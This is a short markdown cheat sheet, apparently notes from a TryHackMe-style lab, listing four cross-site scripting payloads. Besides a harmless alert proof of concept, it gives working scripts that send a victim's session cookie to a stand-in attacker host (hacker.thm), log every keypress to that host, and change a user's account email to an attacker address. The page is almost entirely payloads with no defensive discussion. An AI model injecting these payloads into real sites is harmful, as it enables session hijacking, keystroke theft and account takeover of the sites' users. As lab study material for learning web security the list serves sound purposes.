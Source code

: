 
#  Cross-site Scripting

- Proof Of Concept <script>alert('XSS');</script>
- Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
- Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
- Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>